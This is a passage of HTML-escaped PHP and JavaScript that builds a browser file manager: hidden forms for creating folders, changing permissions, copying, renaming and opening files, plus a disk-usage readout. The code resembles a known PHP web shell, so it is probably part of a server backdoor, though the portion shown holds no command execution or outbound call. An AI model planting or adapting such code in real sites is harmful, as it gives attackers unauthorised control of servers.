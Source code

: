 	//²Ù×÷Íê±Ï
	formhead(array('name'=&gt;'createdir'));
	makehide('newdirname');
	makehide('dir',$nowpath);
	formfoot();
	formhead(array('name'=&gt;'fileperm'));
	makehide('newperm');
	makehide('pfile');
	makehide('dir',$nowpath);
	formfoot();
	formhead(array('name'=&gt;'copyfile'));
	makehide('sname');
	makehide('tofile');
	makehide('dir',$nowpath);
	formfoot();
	formhead(array('name'=&gt;'rename'));
	makehide('oldname');
	makehide('newfilename');
	makehide('dir',$nowpath);
	formfoot();
	formhead(array('name'=&gt;'fileopform', 'target'=&gt;'_blank'));
	makehide('action');
	makehide('opfile');
	makehide('dir');
	formfoot();
	formhead(array('name'=&gt;'getsize'));
	makehide('getdir');
	makehide('dir');
	formfoot();

	$free = @disk_free_space($nowpath);
	!$free && $free = 0;
	$all = @disk_total_space($nowpath);
	!$all && $all = 0;
	$used = $all-$free;
	p('&lt;h2&gt;File Manager - Current disk free '.sizecount($free).' of '.sizecount($all).' ('.@round(100/($all/$free),2).'%)&lt;/h2&gt;');

	$cwd_links = '';
	$path = explode('/', $nowpath);
	$n=count($path);
	for($i=0;$i&lt;$n-1;$i++) {
		$cwd_links .= '&lt;a href="javascript:godir(\'';
		for($j=0;$j&lt;=$i;$j++) {
			$cwd_links .= $path[$j].'/';
		}
		$cwd_links .= '\');"&gt;'.$path[$i].'/&lt;/a&gt;';
	}

?&gt;
&lt;script type="text/javascript"&gt;
document.onclick = shownav;
function shownav(e){
	var src = e?e.target:event.srcElement;
	do{
		if(src.id =="jumpto") {
			$('inputnav').style.display = "";
			$('pathnav').style.display = "none";
			//hidenav();
			return;
		}
		if(src.id =="inputnav") {
			return;
		}
		src = src.parentNode;